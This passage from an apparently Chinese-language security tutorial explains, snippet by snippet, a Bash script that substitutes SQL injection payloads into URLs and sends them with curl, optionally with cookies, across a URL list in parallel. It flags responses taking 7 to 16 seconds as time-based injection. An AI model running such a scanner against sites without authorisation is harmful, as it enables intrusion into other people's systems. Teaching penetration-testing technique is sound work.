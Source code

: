 起始时间被保存到 `start_time` 变量，以便在循环结束时参考。

`fuzzed_url` 变量被赋值为 `${url//FUZZ/$payload}` 参数展开的结果：

```
 fuzzed_url=${url//FUZZ/$payload}
```

这是 Bash 中用于字符串操作的参数展开语法。它告诉 Bash 将 `url` 变量中所有出现的 `FUZZ` 字符串替换为当前的 `$payload` 值。

这里我们根据命令行参数，决定是否带有 Cookie 头部发送请求到模糊化的 URL：

```
 if [ -n "$cookie_header" ]; then
            curl -s -o /dev/null --max-time 20 -H "Cookie: $cookie_header" "$fuzzed_url"
        else
            curl -s -o /dev/null --max-time 20 "$fuzzed_url"
        fi
```

以下代码计算请求的持续时间：

```
 end_time=$(date +%s)
        duration=$((end_time - start_time))
```

以下代码检查请求时长是否表明存在潜在的基于时间的 SQL 注入漏洞：

```
 if ((duration >= 7 && duration <= 16)); then
            echo "Potential time-based SQL injection vulnerability detected on $url with payload: $payload"
            break
        fi
    done
}
export -f perform_sqli_test
```

每个有效负载中都包含了 7 秒的值。根据网络条件和服务器负载，我们预计响应时间至少需要 7 秒或更长时间。我们将函数导出，以便在 shell 中调用。

在这里，我们通过从文件中读取或使用单个 URL 来处理 URL 列表：

```
 process_urls() {
    local url_list=$1
    local cookie_header=$2
    if [ -f "$url_list" ]; then
        cat "$url_list" | parallel perform_sqli_test {} "$cookie_header"
    else
        perform_sqli_test "$url_list" "$cookie_header"
    fi
}
```

接下来，我们调用在脚本开头定义的`check_dependencies`函数：

```
 check_dependencies
```
